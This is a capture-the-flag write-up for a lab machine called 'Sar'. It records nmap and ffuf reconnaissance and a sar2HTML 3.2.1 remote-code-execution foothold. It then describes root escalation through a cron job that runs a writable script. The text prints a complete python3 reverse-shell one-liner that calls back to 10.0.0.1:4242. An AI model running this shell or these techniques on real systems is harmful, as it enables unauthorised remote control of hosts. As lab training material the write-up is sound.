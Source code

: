 # SAR

**Hostname:**
`sar`

**OS:**
`Ubuntu Linux`

**Users:**
`love`

## Port Scan:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:07:B1:37 (VMware)

```

## Recon:

### Web Recon

**Server:**
`Apache 2.4.29`

Languages:
`PHP 7.1.32`

**Technologies:**
`sar2html Ver 3.2.1`
- Sar2HTML Plotting Tool

**robots.txt**
```
sar2html
```
#### Fuzzing

**$IP/FUZZ**
```
 :: Method           : GET
 :: URL              : http://192.168.136.166/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376]
robots.txt              [Status: 200, Size: 9, Words: 1, Lines: 2]
phpinfo.php             [Status: 200, Size: 95486, Words: 4716, Lines: 1170]
```

**$IP/FUZZ/**
```
 :: Method           : GET
 :: URL              : http://192.168.136.166/FUZZ/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

icons                   [Status: 403, Size: 280, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10]
```

### Machine Enumeration

#### Crontab:
```
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

## Foothold / Privilege Escalation:

### Initial Foothold

Initial access was possible due to a vulnerable technology sar2HTML version 3.2.1 which was vulnerable to a [Remote Code Execution Vulnerability](https://www.exploit-db.com/exploits/47204).\
I used a python3 reverse shell command to get a connection into the machine.

---

### Privilege Escalation:

I enumerated files using linpeas and found a cronjob executing a shell script as root.

![cronjob](../pictures/sar/crontab.png)

This was vulnerable since the script was used to execute another script to which I had write permissions.
I exploited this by using a python3 reverse shell command. And when the cronjob executes I get a root shell on my listener.

```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

![exploiting](../pictures/sar/exploit.png)

![root](../pictures/sar/root.png)